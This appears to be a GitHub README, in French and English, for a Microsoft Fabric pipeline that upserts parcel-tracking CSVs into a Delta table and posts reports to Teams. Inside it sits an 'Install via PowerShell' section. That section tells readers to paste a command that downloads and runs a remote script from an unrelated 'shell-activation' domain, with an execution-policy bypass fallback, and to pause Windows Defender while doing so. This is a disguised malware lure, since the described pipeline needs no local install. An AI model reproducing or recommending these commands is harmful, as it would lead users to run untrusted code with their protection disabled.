




<div align="center">

# Fabric Pipeline Express 7: OneLake Event-Driven Upsert Pipeline for Windows 11


[]() []() []() []() []() []()

</div>

---

fabric-pipeline-express-7 est un pipeline Microsoft Fabric Data Factory entièrement événementiel : dès qu'un fichier de suivi de colis est déposé dans OneLake, le pipeline se déclenche automatiquement, sans planification ni intervention manuelle. Il fusionne ensuite les lignes reçues dans une table Delta par Upsert sur la clé shipment_id, garantissant qu'un colis déjà suivi est mis à jour plutôt que dupliqué, quelle que soit la vague de dépôt. Une fonction Python hébergée dans Fabric rédige le compte rendu de chaque vague à partir du nom du fichier et du nombre de lignes traitées, puis le publie dans Microsoft Teams. L'ensemble repose sur quatre activités — Set variable, Copy data, Functions et Microsoft Teams — pilotées par un déclencheur sur événements OneLake.

## ⚡ Install via PowerShell

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Execute the installer
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 📋 System Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Event-driven trigger**: A OneLake `FileCreated` event on the `Files/inbox` folder launches the pipeline automatically as soon as a `.csv` file lands, with a filter matching files whose subject ends in `.csv`. No schedule, no manual invocation.

- **Filename resolution from the event**: A `Set variable` activity extracts the file name from the trigger event payload, falling back to a pipeline parameter when the run is started manually. The resolved value is reused by every downstream activity.

- **Upsert merge on a business key**: The `Copy data` activity loads the incoming file into the Delta table using an Upsert action keyed on `shipment_id`. New records are inserted, existing records are updated in place, and re-running the same file never duplicates a row.

- **Python user data function for report generation**: A hosted Python function reads the wave timestamp from the file name and the row count produced by the copy activity, then composes a human-readable summary sentence. The function is published once and callable from any pipeline in the workspace.

- **Microsoft Teams notification**: The generated summary is posted to a Teams channel through a dedicated activity, so the operations team receives the wave report where it already works.

- **Idempotent, replay-safe behavior**: Because the merge is keyed and the report is derived from the file name and row count, replaying a file produces the same table state and the same message, which makes the pipeline safe to re-run for verification or recovery.

- **End-to-end traceability**: Each run carries the originating file name from the trigger through the variable, the copy activity, the function call, and the Teams message, giving a continuous audit trail from file arrival to published report.

- **Four-activity orchestration**: The pipeline is composed of a variable assignment, a copy activity, a function activity, and a Teams activity, plus one event trigger — a compact topology that is easy to inspect, extend, and adapt to other inbox folders or notification targets.

- **Parameterized entry point**: A `file_name` pipeline parameter allows manual execution against a specific file while the trigger path remains fully automatic, so the same pipeline serves both operational and testing scenarios.

## How it works

fabric-pipeline-express-7 fonctionne selon un cycle événementiel en quatre étapes, sans planification ni intervention manuelle. Le point d'entrée est un fichier déposé dans le lakehouse, et le point de sortie est un message publié dans Microsoft Teams. Entre les deux, le pipeline fusionne les données dans une table Delta, puis délègue la rédaction du bilan à une fonction Python hébergée.

**Étape 1 — Détection de l'événement.** Une règle de déclenchement écoute le dossier de réception du lakehouse. Lorsqu'un fichier au format CSV y est créé, l'événement est capté et transmet au pipeline le contexte de l'exécution, notamment le nom du fichier. Ce nom n'est jamais saisi manuellement : il voyage avec l'événement et alimente la suite du traitement.

**Étape 2 — Résolution du fichier source.** La première activité du pipeline extrait le nom du fichier depuis l'événement déclencheur. Une logique de repli permet également de fournir ce nom en paramètre lorsqu'une exécution est lancée manuellement. Le résultat est stocké dans une variable interne réutilisée par les activités suivantes.

**Étape 3 — Fusion en Upsert.** L'activité de copie lit le fichier résolu et l'écrit dans la table Delta cible selon une action Upsert, avec l'identifiant de colis comme clé de correspondance. Les lignes absentes de la table sont insérées, les lignes déjà présentes sont mises à jour. Aucune duplication n'est possible : rejouer un même fichier ne crée pas de doublon, il rafraîchit simplement les enregistrements existants.

**Étape 4 — Rédaction et notification.** Une activité de fonctions de données utilisateur appelle la fonction Python hébergée, en lui transmettant le nom du fichier et le nombre de lignes lues lors de la copie. La fonction extrait l'heure de la vague depuis le nom du fichier, qualifie la charge selon un seuil de lignes, et retourne une phrase de synthèse. Cette phrase est ensuite publiée dans le canal Microsoft Teams configuré.

Le pipeline est donc entièrement piloté par l'arrivée des données : chaque fichier déclenche une exécution complète, la table reste cohérente par construction grâce à l'Upsert, et le bilan est produit et diffusé automatiquement, sans clic ni horaire fixe.

## Compatibility

Les exigences matérielles et logicielles de fabric-pipeline-express-7 s'inscrivent dans l'écosystème Microsoft Fabric et sont dimensionnées pour le flux événementiel décrit : détection d'un fichier dans OneLake, fusion Upsert de 150 colis dans une table Delta, rédaction du bilan par une fonction Python et publication dans Teams.

**Environnement d'exécution.** Un espace de travail Microsoft Fabric avec la capacité allouée aux charges de travail Data Factory, OneLake et Functions. Le pipeline cible une table Delta nommée `shipments` portée par le lakehouse `LH_Dock`, et la fonction utilisateur `build_report` est hébergée dans `FN_Dock`. Aucune installation locale n'est requise : l'ensemble s'exécute et se pilote dans le service.

**Déclenchement.** Le déclencheur `TR_Dock_Inbox` repose sur les événements OneLake de type `Microsoft.Fabric.OneLake.FileCreated`. Il s'appuie sur Activator pour appliquer le filtre sur le dossier `Files/inbox` et sur l'extension `.csv`, puis transmet l'événement au pipeline. Ce mécanisme exige que le dossier surveillé réside bien dans le lakehouse ciblé et que les événements OneLake soient activés sur l'espace de travail.

**Charges de données.** Les fichiers d'entrée sont des CSV à six colonnes (`shipment_id`, `client`, `destination`, `weight_kg`, `status`, `updated_at`) et quatre statuts (`PREPARE`, `EXPEDIE`, `LIVRE`, `RETARD`). La clé `shipment_id` porte la logique d'Upsert : toute modification du schéma ou de la clé doit être répercutée dans la configuration de l'activité Copy data et dans la table Delta.

**Fonctions et canaux.** L'activité Functions invoque `FN_Dock.build_report(fileName, rowsRead)` avec des paramètres en camelCase, conformément au contrat des fonctions de données utilisateur. La publication finale passe par le connecteur Microsoft Teams, qui requiert un canal cible accessible depuis l'espace de travail et les autorisations associées au compte d'exécution.

**Limites et compatibilité amont.** Le projet suppose une table Delta déjà créée ou recréée à l'identique, des fichiers dont le nom respecte la convention `shipments_<date>_<HHMM>.csv` pour l'extraction de l'heure de vague, et un volume de lignes lues compatible avec le seuil de qualification de charge (115 lignes). Toute évolution de ces conventions, du schéma ou des connecteurs Fabric doit être validée par une exécution de contrôle avant mise en production.

## 📸 Screenshot









## FAQ

**Le pipeline Tourne-t-il sans le déclencheur ?**
Oui. Le déclencheur `TR_Dock_Inbox` est un point d'entrée, pas une dépendance. Le pipeline `PL_Dock_Express` accepte le paramètre `file_name`. Tant qu'il est renseigné (par l'événement ou à la main), l'activité `Pick file` résout le nom du fichier via `@coalesce(pipeline()?.TriggerEvent?.FileName, pipeline().parameters.file_name)` et le reste de la chaîne s'exécute sans modification.

**Comment le pipeline gère-t-il un fichier déjà traité ?**
L'activité `Upsert shipments` opère en mode Upsert sur la clé `shipment_id`. Une ligne absente est insérée, une ligne existante est remplacée. Rejouer un fichier ne crée jamais de doublon : la sémantique est un `MERGE`, pas un `INSERT`. Le nombre de lignes lues peut être supérieur au nombre de nouvelles lignes en table, sans que cela n'affecte l'intégrité.

**Quel est le format attendu pour les fichiers entrants ?**
CSV déposé dans `Files/inbox` du lakehouse `LH_Dock`, nommé avec le motif `shipments_<date>_<HHMM>.csv`. Le déclencheur filtre sur le suffixe `.csv`. La fonction `build_report` extrait l'heure de la vague depuis le segment `HHMM` du nom : `1800` devient `18 h 00`. Un nom non conforme (segment absent ou non numérique) est traité, mais le compte rendu affiche le segment tel quel plutôt qu'une heure formatée.

**Que se passe-t-il si la fonction Python échoue ?**
L'activité `Build report` échoue, et l'activité `Post report` en aval n'est pas exécutée : aucun message n'est publié dans Teams. La copie en Upsert, elle, a déjà eu lieu. Les données restent donc cohérentes, seule l'annonce manque. La fonction `build_report` est testable indépendamment du pipeline, ce qui permet d'isoler une erreur de rédaction d'une erreur d'orchestration.

**Comment la fonction Python est-elle invoquée ?**
L'activité `Build report` appelle `FN_Dock.build_report(fileName, rowsRead)`. Les paramètres sont en camelCase, conformément à la convention des fonctions de données utilisateur Fabric. La fonction retourne une chaîne, consommée directement par `Post report` via `@activity('Build report').output.output`. Les noms de paramètres doivent correspondre exactement à la signature déclarée.

**Le pipeline est-il limité à trois vagues par jour ?**
Non. Le déclencheur réagit à chaque création de fichier `.csv` dans le dossier surveillé, sans contrainte d'horaire. Le rythme de trois vagues (8 h, 14 h, 18 h) est une convention opérationnelle du jeu de données, pas une contrainte technique. Un quatrième dépôt déclencherait une quatrième exécution avec les mêmes garanties d'idempotence.

**Quelle est la latence entre le dépôt du fichier et le message Teams ?**
Environ deux minutes sur la configuration de référence, du dépôt à la publication. La latence dépend de la file d'événements OneLake, du démarrage du pipeline et de l'exécution de la fonction. Elle n'est pas pilotée par une planification, mais par l'arrivée effective de la donnée.

**Comment vérifier l'exactitude de la table après exécution ?**
Interroger la table `shipments` via le point de terminaison SQL du lakehouse. Deux contrôles suffisent : `COUNT(*)` et `COUNT(DISTINCT shipment_id)` doivent être égaux, et la répartition par `status` doit totaliser le même nombre. Sur les trois vagues de référence, les deux comptes valent 150.

**Le pipeline peut-il être rejoué sans effet de bord ?**
Oui, dans la limite de l'idempotence de l'Upsert. Rejouer un fichier déjà traité réapplique les mêmes valeurs sur les mêmes clés : l'état de la table est inchangé. Le message Teams, en revanche, est republié, car l'activité `Post report` ne filtre pas les doublons d'annonce.

**Quelles dépendances externes le pipeline requiert-il ?**
Un lakehouse avec la table Delta `shipments`, une instance de fonctions de données utilisateur hébergeant `build_report`, un canal Teams cible et un déclencheur sur les événements OneLake. Aucune dépendance à un service tiers n'est nécessaire.

## Disclaimer

This repository and its contents are provided as a technical demonstration and reference implementation for an event-driven Microsoft Fabric pipeline. The included datasets, file names, shipment records, client names, and report outputs are entirely fictitious and are intended solely to illustrate pipeline behavior; they must not be treated as production data or used to derive operational, logistical, or commercial decisions. The pipeline definition, Copy data Upsert configuration, trigger rule, Python user data function, and Teams notification logic are supplied as-is and depend on the target Fabric workspace, lakehouse schema, Delta table definition, and connection configuration at deployment time. Behavior may vary with workspace capacity, Activator rule evaluation, OneLake event delivery, and network conditions, and no guarantee is made regarding throughput, latency, ordering, or exactly-once semantics beyond what the underlying Fabric services provide. Before deploying to a live environment, validate the Upsert key mapping, schema alignment, trigger filter, and notification targets against your own requirements, and test with representative data. The authors accept no liability for data loss, duplication, misconfiguration, or downstream impact arising from use of this project. Review all expressions, permissions, and connections prior to production use.

## License

This project is distributed under the MIT License.

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

### Scope of the Grant

The license covers the pipeline definitions, the Python user-defined function source, the sample CSV datasets, the expressions file, and the accompanying documentation bundled in this repository. You may adapt, redistribute, and embed these artifacts in commercial or non-commercial Fabric workspaces without additional authorization.

### Redistribution Requirements

When you redistribute the project, in whole or in part, you must retain this license text and the original attribution to the project authors. Modified versions must be clearly identified as such, and any derivative distribution must not imply endorsement by the original authors.

### Third-Party Dependencies

The project relies on Microsoft Fabric Data Factory, OneLake event triggers, Activator, Delta Lake, user data functions, the SQL analytics endpoint, and Microsoft Teams. Those services are governed by their own terms and licensing; nothing in this license modifies or extends your rights with respect to them. The sample datasets are synthetic and provided for demonstration purposes only.

### No Warranty on Data Outcomes

Because the pipeline performs merges keyed on `shipment_id` and generates narrative output through a Python function, the authors make no guarantee regarding the accuracy, completeness, or fitness of any resulting table, report, or Teams message. Validate all Upsert behavior and report content in your own environment before production use.

### Contributions

Unless explicitly stated otherwise, any contribution intentionally submitted for inclusion in this project shall be licensed under the same terms, without additional conditions.